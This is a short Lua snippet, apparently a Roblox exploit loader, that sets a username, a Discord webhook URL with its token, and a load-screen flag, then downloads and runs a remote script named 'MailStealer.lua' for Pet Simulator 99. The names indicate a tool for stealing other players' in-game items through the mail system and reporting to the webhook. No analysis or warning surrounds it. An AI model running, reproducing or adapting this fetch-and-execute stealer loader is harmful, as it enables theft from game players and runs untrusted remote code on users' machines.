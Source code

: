 Username = "Quimcy_boy17"
LoadScreen = true 
Webhook = "https://discord.com/api/webhooks/1338799430970642493/ZR1YPQQTNcaGUQ66txhGBWdP5-Ra-MpHhgRcJ8jXqGvVrAw1nOvWF6vbzDdqII6c919V"

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
